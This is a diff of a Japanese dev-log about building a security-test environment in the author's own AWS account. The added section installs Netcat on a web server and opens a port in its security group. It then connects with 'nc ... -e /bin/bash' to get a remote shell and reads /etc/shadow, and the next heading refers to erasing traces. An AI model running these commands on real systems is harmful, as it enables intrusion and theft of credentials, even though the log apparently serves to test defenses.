

Before and after one commit to is0356xi/my-aws-account, a Markdown page: dev-logs/セキュリティテスト環境実装.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/dev-logs/セキュリティテスト環境実装.md
+++ b/dev-logs/セキュリティテスト環境実装.md
@@ -286,7 +286,7 @@ ip_name=$(echo $ssm_instance_profile_arn | grep -o '/.*' |  -e 's/\///g')
 # EC2リストを取得
 aws ec2 describe-instances --profile switch >> tmp.txt
 # Webサーバに該当するインスタンスを検索し、instance-idを取得する
-instance_id=$(grep -C 100 Web tmp.txt | head -n 30 | grep -o '"i-.*"' | sed 's/"//g')
+instance_id=$(grep -C 120 Web tmp.txt | head -n 30 | grep -o '"i-.*"' | sed 's/"//g')
 
 # EC2にインスタンスプロファイルが既にアタッチされている場合はデタッチ
 association_id=$(aws ec2 --profile switch describe-iam-instance-profile-associations --filters Name=instance-id,Values=$instance_id | grep -o '"iip-.*"' | sed 's/"//g')
@@ -318,11 +318,32 @@ sudo crontab -e
 * * * * * /.pyenv/versions/3.10.11/bin/python /home/ec2-user/client.py
 ```
 
-!!!! In Progress !!!!
+- 3. Netcat
+  - NetcatをWebサーバにinstallし、特定PortでListen状態にする
+  - Webサーバにアタッチされているセキュリティグループで特定Portの通信を許可する
 
-- 3. Netcat
-  - NetcatコマンドをWebサーバにinstallし、特定PortでListen状態にする
-  - Webサーバにアタッチされているセキュリティグループで特定Portの通信を許可する
+```sh:
+### Webサーバ側 ###
+# Netcatのインストール
+sudo yum install nc
+
+# 特定ポートでListen状態にする (例:8099)
+nc -lpve 8099
+
+### セキュリティグループの穴あけ ###
+aws ec2 describe-instances --profile switch >> tmp.txt
+instance_id=$(grep -C 120 Web tmp.txt | head -n 30 | grep -o '"i-.*"' | sed 's/"//g')
+securitygroup_id=$(aws ec2 describe-instances --instance-ids $instance_id --query 'Reservations[].Instances[].SecurityGroups[].GroupId' --output text)
+aws ec2 authorize-security-group-ingress \
+    --group-id $securitygroup_id \
+    --protocol tcp \
+    --port 8099 \
+    --cidr <指示を出す側のサーバのIPを含むCIDR>
+
+### Webサーバに指示を出す側 ###
+nc <WebサーバのIP> 8099 -e /bin/bash
+sudo cat /etc/shadow
+```
 
 
 **2.痕跡消去**
````
